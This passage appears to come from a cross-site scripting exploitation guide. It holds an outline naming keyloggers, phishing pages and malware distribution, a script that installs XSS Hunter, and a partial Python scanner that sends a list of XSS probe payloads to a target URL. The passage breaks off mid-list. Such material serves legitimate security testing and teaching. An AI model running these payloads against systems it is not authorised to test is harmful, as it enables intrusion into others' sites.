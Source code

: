 2. **Advanced Exploitation**
   - Keyloggers
   - Phishing pages
   - Malware distribution

---


## Tools & Scripts {#tools-scripts}

### Installation Scripts

#### XSS Hunter Installation
```bash
#!/bin/bash
# xss-hunter-install.sh
echo "Installing XSS Hunter..."

# Install dependencies
sudo apt-get update
sudo apt-get install -y python3 python3-pip git

# Clone XSS Hunter
git clone https://github.com/mandatoryprogrammer/xsshunter.git
cd xsshunter

# Install dependencies
pip3 install -r requirements.txt

# Configure and run
python3 manage.py migrate
python3 manage.py runserver 0.0.0.0:8000

echo "XSS Hunter installed successfully!"
echo "Access at: http://localhost:8000"
```

#### Custom XSS Scanner
```python
#!/usr/bin/env python3
# xss-scanner.py
import requests
import re
from urllib.parse import urljoin, urlparse

class XSSScanner:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        self.session.headers.update({
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
        })
    
    def test_xss_payloads(self, param, value):
        # Test XSS payloads
        payloads = [
            "<script>alert('XSS')</script>",
            "<img src=x onerror=alert('XSS')>",
            "<svg onload=alert('XSS')>",
            "javascript:alert('XSS')",
            "<iframe src=javascript:alert('XSS')></iframe>",
            "<body onload=alert('XSS')>",
            "<input onfocus=alert('XSS') autofocus>",
            "<select onfocus=alert('XSS') autofocus>",
```
